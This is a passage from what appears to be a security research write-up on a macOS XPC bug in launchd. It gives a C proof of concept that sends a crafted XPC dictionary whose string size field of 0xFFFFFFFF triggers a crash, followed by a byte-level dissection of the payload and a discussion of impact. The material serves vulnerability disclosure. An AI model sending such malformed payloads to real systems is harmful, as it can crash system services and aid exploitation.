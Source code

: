 int main(){
        unsigned char payload[] = {0x21, 0x43, 0x50, 0x58, 0x05, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x68, 0x61, 0x6e, 0x64, 0x6c, 0x65,0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x73, 0x75, 0x62, 0x73, 0x79, 0x73, 0x74, 0x65, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x61, 0x00, 0x00, 0x00, 0x00, 0x90, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff, 0x61, 0x00, 0x00, 0x00, 0x72, 0x6f, 0x75, 0x74, 0x69, 0x6e, 0x65, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
        send_payload(payload, sizeof(payload));

        return(0);
}%
{% endhighlight %}

Dissecting the payload, we can see:

{% highlight text %}
21 43 50 58: Macing "!CPX"
05 00 00 00: Version 5
00 f0 00 00: Type 'dictionary'
5c 00 00 00: Size 0x5c
04 00 00 00: 4 entries
68 61 6e 64 6c 65 00 00: Key 'handle'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value 1
73 75 62 73 79 73 74 65 6d 00 00 00: Key 'subsystem'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value 1
61 00 00 00: Key 'a'
00 90 00 00: Type 'string' 
ff ff ff ff: Size 0xFFFFFFFF    ** TRIGGER CRASH **
61 00 00 00: Value 'a'
72 6f 75 74 69 6e 65 00: Key 'routine'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value '1'
{% endhighlight %}

Apple has fixed this specific instance of the bug, but before I upgraded to 10.11 I noticed that the class of bug still existed in the newest version of 10.10. As of 10.11, it seems that Apple has changed from using the 'mach_msg_send' function from userland to using another function call - based on the lack of the `mach_msg_send` function call in `libxpc.dylib`. I have yet to try any of the crashes on OSX 10.11+.

Impact / exploitability
-----------------------
It seems that OSX IPC is moving towards all applications using XPC. Although I did not see anywhere in the kernel that processes XPC (I did not look too hard), this bug was found in `launchd` which is PID1 on OSX (similar to `init` on Linux). Furthermore, there are dozens of IPC services running as root as well as unprivileged users that all use XPC as a communication mechanism. In turn, the impact of this bug, if it were to be exploitable would be quite critical.  

This bug is an arbitrary read forward, and from the basic proof of concept does not look to be extremely useful (granted, my exploitation skills are minimal). Some theories I had:
